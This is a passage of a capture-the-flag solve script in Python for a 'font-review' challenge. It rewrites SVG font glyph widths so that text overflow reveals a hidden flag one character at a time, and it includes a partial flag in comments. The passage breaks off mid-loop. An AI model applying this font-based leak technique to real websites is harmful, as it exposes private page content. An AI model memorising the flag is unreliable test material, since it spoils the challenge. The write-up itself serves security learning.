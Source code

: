 ```python
local_url = "http://127.0.0.1:3001"
url = "https://font-review.chall.pwnoh.io"

# get a proper font size to make it not overflow as default
curr = 300
os.system("cp ./fonts/font1-bak.svg ./fonts/font1.svg")

while isOverrflow(genFont()):
    with open("fonts/font1.svg", "r") as f:
        content = f.read()
    with open("fonts/font1.svg", "w") as f:
        # step is 25
        f.write(content.replace("horiz-adv-x=\"" + str(curr) + "\"", "horiz-adv-x=\"" + str(curr - 25) + "\""))
    curr -= 25
    # for rate limit if needed
    # sleep(1)

if curr == 300:
    print("Error! should increase the first font size")
    exit()

print(curr)

# result is 125 for each char
# curr = 125

# add flag byte by byte
# for started from breakpoint (due to the rate limit of the server)
# flag = "bctf{l34rn1n6_6r347_6r4ph1c_d3516n"
flag = "bctf{"
origin = "</font>"

def update_flag(origin, flag):

    with open("fonts/font1.svg", "r") as f:
        content = f.read()

    with open("fonts/font1.svg", "w") as f:
        if origin == "</font>":
            # if this is the first time to update the flag
            f.write(content.replace("</font>", f"""<glyph unicode="{flag}" horiz-adv-x="{(len(flag) + 10) * curr}" d="M1 0z"/>\n</font>"""))
        else:
            f.write(content.replace(origin, f"""<glyph unicode="{flag}" horiz-adv-x="{(len(flag) + 10) * curr}" d="M1 0z"/>""")) # 10 is magic number

    # used by next time replacement (Also we can use regex to do this)
    return f"""<glyph unicode="{flag}" horiz-adv-x="{(len(flag) + 10) * curr}" d="M1 0z"/>"""

# for started from breakpoint
# origin = """<glyph unicode="bctf{l34rn1n6_6r347_6r4ph1c_d3516n1" horiz-adv-x="5625" d="M1 0z"/>"""
origin = update_flag(origin, flag)
# make sure it will overflow if we make known flag larger
assert(isOverrflow(genFont()))
print("test passed")
found = False

# }_
# abcdefghijklmnopqrstuvwxyz
# '0123456789'
while not flag.endswith("}"):
```